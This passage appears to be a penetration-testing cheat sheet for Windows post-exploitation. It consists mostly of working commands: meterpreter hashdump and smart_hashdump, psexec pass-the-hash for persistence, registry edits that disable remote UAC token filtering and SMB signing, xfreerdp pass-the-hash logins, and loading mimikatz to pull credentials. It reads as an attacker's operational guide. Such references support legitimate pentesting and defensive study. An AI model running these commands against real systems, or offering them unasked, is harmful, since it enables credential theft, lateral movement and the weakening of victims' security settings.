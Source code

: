 ```bash
meterpreter> hashdump  # requires privileges

# for windows specially
meterpreter> run post/windows/gather/smart_hashdump
meterpreter> background
msf> creds
msf> loot
```

The next steps mainly concern windows operating systems

1. Acquire persistence through obtained hashes with `smbexec` 

```bash
msf> use exploit/windows/smb/psexec  # as smbpass use the preiously gained hashes
```

**OnError:** `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` change registry for persistence  

```powershell
Set-ItemProperty -Path HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFilterPolicy -Value 1 -Type DWord

Set-ItemProperty -Path HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters -Name RequireSecuritySignature -Value 0 -Type DWord
```

Or `cmd` `reg` command:

```powershell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f  

reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```

Registry value `LocalAccountTokenFilterPolicy` allows users in the local admin group to sometimes *pass-the-hash*

2. Use `xfreerdp` for `pth`

```bash
xfreerdp /u:admin /d:domainCorp /pth:<theHashToPass> /v:<IPofTarget>
```

3. Obviously: crack the hashes - if you got the time

- requires x64 process for best performance and functionality 

```bash
meterpreter> ps -A x86_64 -s # possible if NT-System
meterpreter> migrate <PID>
meterpreter> load mimikatz
meterpreter> wdigest # old 
```

4. Windows Credentials Editor [companyWebpage](https://www.ampliasecurity.com/research/windows-credentials-editor/)
